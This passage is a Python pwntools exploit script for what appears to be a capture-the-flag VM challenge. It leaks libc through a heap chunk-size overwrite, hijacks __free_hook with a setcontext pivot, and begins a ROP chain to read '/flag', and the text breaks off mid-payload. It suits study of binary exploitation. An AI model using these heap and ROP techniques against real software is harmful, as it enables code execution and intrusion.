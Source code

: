 ```python
	global p
	if host:
		pass
	else:
		pass
		# debug(0x000000000000F66)
	flag = ''
	for i in range(0x40):
		p = remote(host,port)
		code = p8(instr["mov"])+p8(8)+p8(0)+p8(9)			# mov r0,rbp
		code += p8(instr["add"])+p8(1)+p8(1)+p64(0x701)		# add r1,0x701
		code += p8(instr["sub"])+p8(1)+p8(0)+p64(0x808)		# sub r0,0x800
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1 ; overwrite chunk size
		code += p8(instr["alloc"])+p32(0x400)				# alloc(0x400) ; free chunk
		code += p8(instr["add"])+p8(1)+p8(0)+p64(8)			# add r0,0x8
		code += p8(instr["mov"])+p8(16)+p8(2)+p8(0)			# mov r2,[r0]
		code += p8(instr["sub"])+p8(1)+p8(2)+p64(0x3ec140)	# sub r2,0x3ec140 ; r2 --> libc_base
		code += p8(instr["mov"])+p8(8)+p8(3)+p8(2)			# mov r3,r2
		code += p8(instr["add"])+p8(1)+p8(3)+p64(libc.symbols["__free_hook"])		
															# add r3,libc.symbols["__free_hook"]
		code += p8(instr["mov"])+p8(8)+p8(4)+p8(2)			# mov r4,r2
		code += p8(instr["add"])+p8(1)+p8(4)+p64(libc.symbols["setcontext"]+0x35)
															# add r4,libc.symbols["setcontext"]+0x35
		code += p8(instr["mov"])+p8(32)+p8(3)+p8(4)			# mov [r3],r4 ; overwrite chunk size
		
		
		code += p8(instr["mov"])+p8(1)+p8(1)+p64(u64("/flag".ljust(8,"\x00")))
															# mov r1,'/flag'
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1 
		
		code += p8(instr["mov"])+p8(8)+p8(1)+p8(0)			# mov r1,r0
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x68)		# add r0,0x68
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1	# rdi
		
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x10)		# add r0,0x10
		code += p8(instr["add"])+p8(1)+p8(1)+p64(0x300)		# add r1,0x300
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1	# rbp
		
		
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x28)		# add r0,0x28
		code += p8(instr["add"])+p8(1)+p8(1)+p64(0xa8)		# add r1,0x200
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(1)			# mov [r0],r1	# rsp
		
		code += p8(instr["add"])+p8(1)+p8(0)+p64(0x8)		# add r0,0x8
		code += p8(instr["mov"])+p8(8)+p8(3)+p8(2)			# mov r3,r2
		code += p8(instr["add"])+p8(1)+p8(3)+p64(0x439c8)	# add r3,offset
		code += p8(instr["mov"])+p8(32)+p8(0)+p8(3)			# mov [r0],r3	# rcx
		# 0x00000000000d3d8a: ret;
		# 0x00000000000a17e0: pop rdi; ret; 
		# 0x00000000001306d9: pop rdx; pop rsi; ret;
		# 0x00000000000439c8: pop rax; ret;
		# 0x00000000000d2975: syscall; ret;
		# 0x000000000002f128: mov rax, qword ptr [rsi + rax*8 + 0x80]; ret;
		# 0x000000000012188f: mov rdi, rax; mov eax, 0x3c; syscall;
		ret = 0x00000000000d3d8a
		p_rdi = 0x00000000000a17e0
		p_rdx_rsi = 0x00000000001306d9
		p_rax = 0x00000000000439c8
		syscall_ret = 0x00000000000d2975
		
		buf = 0x3ec000
		payload = [
```